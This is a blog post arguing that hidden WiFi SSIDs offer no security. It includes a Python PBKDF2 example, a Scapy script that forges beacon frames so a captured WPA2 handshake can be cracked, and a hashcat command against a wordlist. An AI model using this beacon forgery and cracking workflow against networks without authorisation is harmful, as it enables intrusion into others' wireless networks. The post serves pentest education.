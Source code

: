 ```yaml
---
layout: post
title: "Hacking Hidden WiFi Networks"
date: 2025-06-14
author: TheXero
comments: true
categories: wifi
tags: [wifi, hidden-ssid, scapy, wireless-hacking, beacon-frame, hashcat, psk-cracking, pentesting]
description: "Explore the truth behind hidden SSIDs and learn how attackers can reveal and exploit non-broadcasting WiFi networks using beacon spoofing and Scapy."
keywords: hidden SSID, non-broadcasting WiFi, beacon spoofing, WPA2 cracking, wireless security, Scapy, hashcat, hcxpcapngtool
excerpt: "Think hidden SSIDs make your WiFi more secure? Think again. Discover how wireless attackers reveal, spoof, and crack non-broadcasting networks using Python, Scapy, and Hashcat."
image: /images/ssid_hidden.webp
thumbnail: /images/ssid_hidden.webp
---
```


## TL;DR

Hidden SSIDs don’t provide real security—they only hide your network name from the casual observer. In this post, we explore how attackers can reveal a hidden SSID by monitoring probe responses and forge beacon frames using Scapy to crack WPA2 passwords using the password cracking tool Hashcat. If you’re relying on “security by obscurity,” it’s time to rethink your wireless defenses.

---

I have received a lot of queries recently, around hidden SSIDs, specifically if there is any security implications of it. After all, if no one can see my network, then nobody can possibly target it.

Now, lets clear up a few bits first, a hidden SSID is not a recommended security practice. A hidden SSID is actually known as a non-broadcasting SSID, and provides a false sense of security. Lets explore why this is the case.

A standard WiFi network presents itself by sending out what is known as a Beacon frame. This beacon frame is used to actively broadcast itself as being available to connect to. A hidden, or non-broadcasting SSID on the other hand, still sends the same beacon frames, but with an empty SSID field.

![Hidden SSID](/images/ssid_hidden.webp)

Now, the standard device might have trouble connecting to a hidden network for one of two reasons.
1. The modern day default, is that STA devices can be configured to search for networks, but typically do not reveal what network they are searching for. Instead, they rely on the response frame containing a known network.
2. Some older devices, cannot be configured to connect to a hidden network.

What ends up happening, is the device will send a probe request with a missing SSID, and the hidden network, will just ignore it. It will not respond to the request.

![Hidden Probe](/images/probe_hidden.webp)


To get around, this STA must be configured to ask for the specific network it is looking for, only then will the AP send a response containing the SSID.

![Probe with SSID](/images/probe_ssid.webp)


After receiving this valid response frame, the device then continues through the WiFi states and exchanges the authentication frames, and following with the association frames, again while having to disclose the SSID it is attempting to associate with.

![Association with SSID](/images/association_ssid.webp)


And so, despite some might believe using a hidden or non-broadcasting SSID is a security feature, its really not. It is more security by obscurity and hassle than anything else, as the world is more security and privacy conscious than ever before, the non-broadcasting network name is still leaked during various stages.

But I hear you say, "what about during the 4-way handshake, the SSID is the salt. Without it, you cannot crack the password." To that, I would say, you are 100% correct. The way the PSK is generated is with both the password as well as the SSID. Lets break this down and demonstrate this in human readable python code.


```
# Imports the required PBKDF2 module
from pbkdf2 import PBKDF2

# Defines the ESSID (used as the salt)
ESSID=WPA2

# Defines the password used
PASSWORD=password

# Generates the PMK 
PMK=PBKDF2(PASSWORD, ESSID, 4096).read(32).hex()

# Outputs the PMK hash to the screen
print(PMK)
```

More information on this exact process can be found in the RFC over at [https://www.rfc-editor.org/rfc/rfc8018.txt](https://www.rfc-editor.org/rfc/rfc8018.txt).

So yes, in order to crack the password, you need the true SSID for the network. 

Now, imagine this scenario, you are on a wireless pentest, you got the 4-way handshake, all is good, and you export the files. You go back to your office to put the hash onto your custom built escobar password cracking device. 

And it hits you, that dreaded error from hcxpcapngtool. Information: `no hashes written to hash files`. When you exported the selected frames, forgetting that the SSID is not broadcasted. You exported the full 4-way handshake with the standard beacon frame that did not contain the SSID. How can you crack the password now?

But you know the SSID. Beacon frames are not verified, so, lets forge one ourselves with Scapy, so we can crack this hash out.

You create the following python code:
```
#!/usr/bin/python3

# Import all parts to send a forged Beacon frame
from scapy.all import Dot11Beacon, Dot11Elt, Dot11, RadioTap, sendp

# Define the known SSID
SSID="WPA2"

# Create the broadcast Beacon frame
dot11 = Dot11(
        type=0,
        subtype=8, 
        addr1='ff:ff:ff:ff:ff:ff', 
        addr2='50:d4:f7:ff:ef:d8', 
        addr3='50:d4:f7:ff:ef:d8')
Beacon = Dot11Beacon()

# Set the SSID field
ESSID = Dot11Elt(ID='SSID', info=SSID, len=len(SSID))

# Construct the frame
frame = RadioTap()/dot11/Beacon/ESSID

# Send 10 forged frames
sendp(frame, iface='wlan0', count=10)
print("Sent Beacon.")
```

With Wireshark open and listening capture the forged Beacon frame as shown below:
![Forged Beacon Frame](/images/forged_beacon.webp)

Now all you need to do is merge the forged beacon frame into the existing pcapng file and convert the hash to hashcat using hcxpcapngtool. And finally, its now time to crack the hash using hashcat
```# hashcat -m 22000 forged.22000 /usr/share/wordlists/rockyou.txt --quiet
8761551efb7b088761cdcf31de358919:50d4f7ffefd8:0025d38b6d09:WPA2:princess
```

I hope you all enjoyed this post. Let me know what you would like to see next.

Toby



### Ready to Level Up Your Wireless Hacking Skills?

If you found this post valuable and want to dive deeper into real-world WiFi attack techniques, rogue AP setups, handshake harvesting, and advanced cracking, check out my **Wireless Mastery** course.

Enrollment is open now at [https://training.thexero.co.uk/p/wireless-mastery](https://training.thexero.co.uk/p/wireless-mastery) and take your wireless skills to the next level.
